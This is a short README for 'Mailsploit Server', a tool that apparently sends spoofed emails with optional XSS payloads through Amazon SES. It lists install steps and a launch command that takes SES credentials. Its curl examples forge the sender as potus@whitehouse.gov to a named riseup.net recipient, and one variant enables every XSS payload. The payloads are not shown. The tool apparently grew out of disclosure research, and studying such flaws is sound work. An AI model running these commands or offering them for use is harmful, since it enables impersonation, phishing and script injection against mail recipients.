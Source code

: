 

#### Mailsploit Server

*Note*: You will need an Amazon SES account with a verified domain in order to use the tool.

How to install:

1. Clone the repository
2. Edit `originalFrom` in `src/main/Config.ts` with your verified SES email address.
3. Run the following commands in the terminal:
```
yarn install && yarn dist # Require yarn
```
How to launch the web server:

1. Run the following command in the terminal:
```
SES_USERNAME=[Amazon SES Username] SES_PASSWORD=[Amazon SES Password] node dist/commonjs/index.js
```
2. That's it. The server will run on localhost:8081

How to use it:

You can do a POST request containing `sender`, `receiver` and `options` (from 0 to 13) parameters to the `/process` endpoint.

Example using cURL (payload 3 without XSS):

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&options=2"
```

or, all the payloads with XSS:

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&xss=true&options=-1"
```